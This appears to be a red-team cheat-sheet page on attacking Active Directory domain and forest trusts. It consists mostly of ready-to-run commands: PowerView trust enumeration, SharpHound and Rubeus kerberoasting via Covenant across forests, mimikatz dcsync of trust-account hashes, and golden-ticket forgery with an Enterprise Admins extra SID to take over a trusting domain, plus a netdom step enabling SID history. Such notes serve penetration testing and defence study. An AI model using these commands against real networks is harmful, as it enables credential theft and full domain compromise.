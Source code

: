 # Domain Trust

### General

#### Show Domain Trust (PowerView)

```
PowerShell Get-DomainTrust -Domain other.domain
```

#### Sharphound across Forest (Covenant)

```
(xct) > Assembly SharpHound3 "-c All -D other.domain"
```

#### Kerberoast acress Forest (Covenant)

```
(xct) > Rubeus kerberoast /domain:other.domain
```

### Domain Trust

Enumerate

```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
Get-DomainTrust -API //PowerView
```

#### Scenario: Domain Admin in one Domain with bidirectional trust to another target domain

When Trust is enabled, computer accounts domain1$  and domain2$ is created (trust account). Shared secret of both domains is these accounts password hashes. This can be dumped as DA in one domain (and can be used for the following steps instead of krbtgt if we can not get our hands on that one):

```
lsadump::dcsync /domain:prod.corp1.com /user:domain1$
```

1. Gather both domains SIDs:

```
Get-DomainSID -Domain domain1
Get-DomainSID -Domain domain2
```

2\. Craft golden ticket to grant Enterprise Privileges&#x20;

```
kerberos::golden /user:<user> /domain:<domain1> /sid:<domain1-sid> /krbtgt:<krbtgt-domain1> /sids:<domain2-sid>-519 /ptt
```

### Forest Trust

Across Forests, extra SIDs are filtered. This can however be disabled on the dc (the intend is to disable it on corporation mergers etc.):

```
netdom trust <domain2> /d:corp1.com /enablesidhistory:yes
```

Despite enabling this, we would still get access denied because SIDs < 1000 are always filtered. In addition members of Global Security Groups will also be filtered. So we need to find a SID > 1000 with privileges that help us, (if its a group it must also not be a member of Global Security Groups).

